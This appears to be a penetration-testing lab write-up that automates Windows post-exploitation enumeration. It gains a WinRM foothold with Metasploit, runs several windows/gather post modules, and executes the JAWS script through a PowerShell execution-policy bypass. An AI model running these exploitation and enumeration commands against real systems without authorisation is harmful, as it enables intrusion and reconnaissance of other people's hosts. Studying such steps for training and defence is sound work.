# Automating Windows Local Enumeration

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Windows host (WinRM on 5985)

## 1. Executive Summary

Rather than enumerate by hand, we automate it. After a **WinRM** foothold, we run the
`windows/gather/*` Metasploit post modules (privileges, logged-on users, VM check, installed
apps, domain computers, patches, shares), then upload and run **JAWS** (Just Another Windows
Script) for a full automated enumeration report.

## 2. Foothold (WinRM)

```bash
db_nmap -sV <target>
db_nmap -sV -p5985 <target>
use exploit/windows/winrm/winrm_script_exec
set FORCE_VBS true
exploit
```











## 3. Metasploit Post Modules

```bash
run post/windows/gather/win_privs
```



```bash
run post/windows/gather/enum_logged_on_users
```



```bash
run post/windows/gather/checkvm
```



```bash
run post/windows/gather/enum_applications
```



```bash
run post/windows/gather/enum_computers
```



```bash
run post/windows/gather/enum_patches
```



```bash
run post/windows/gather/enum_shares
```



## 4. JAWS Script



Uploading and running the PowerShell script, outputting to a file.

```cmd
mkdir C:\Temp
```







```powershell
powershell.exe -ExecutionPolicy Bypass -File jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```





Downloading the report.





## 5. Notes

Automated enumeration (JAWS, WinPEAS, PrivescCheck) quickly surfaces privesc paths — but it is
noisy; defenders should **monitor for mass enumeration** and script execution from unusual
processes.
